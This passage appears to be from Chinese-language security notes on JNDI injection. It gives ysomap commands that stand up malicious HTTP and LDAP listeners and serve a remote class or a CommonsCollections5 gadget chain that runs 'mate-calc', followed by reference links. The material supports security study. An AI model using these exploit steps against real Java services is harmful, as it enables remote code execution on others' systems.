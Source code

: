 ## JNDI LDAP Reference（jdk < 8u191）
使用 ysomap 中的 LDAPRefListener
```bash
use exploit SimpleHTTPServer
use payload EvilFileWrapper
use bullet ClassWithEvilConstructor
set lport 8081
set path /EvilObj.class
set classname EvilObj
set body "mate-calc"
set type class
run

use exploit LDAPRefListener
set lport 1389
set codebase http://localhost:8081/
set objectName EvilObj
run
```
## JNDI LDAP SerializedData（通用）
使用 ysomap 中的 LDAPLocalChainListener
```bash
use exploit LDAPLocalChainListener
use payload CommonsCollections5
use bullet TransformerWithTemplatesImplBullet
set lport 1389
set args "mate-calc"
run
```


# 参考
- [JNDI注入原理及利用考究 - 先知社区](https://xz.aliyun.com/t/12277#toc-4)
- [JAVA 协议安全笔记-JNDI篇 - 跳跳糖](https://tttang.com/archive/1441/#toc_0x03-jndi)
- [JNDI 注入漏洞的前世今生 - evilpan](https://evilpan.com/2021/12/13/jndi-injection/#remote-class)
- [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/)
- [JNDI 注入浅析 - X1r0z Blog](https://exp10it.cn/2022/12/jndi-%E6%B3%A8%E5%85%A5%E6%B5%85%E6%9E%90/#%E5%88%A9%E7%94%A8%E6%9C%AC%E5%9C%B0-class-%E4%BD%9C%E4%B8%BA-factory)
- [Java安全之SnakeYaml反序列化分析 - 跳跳糖](https://tttang.com/archive/1591/)
- [JNDI与RMI、LDAP一二事 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/321801.html)
- [8u191后的JNDI注入利用 - Atomovo - 博客园](https://www.cnblogs.com/yyhuni/p/15088134.html#jndildap%E9%AB%98%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87)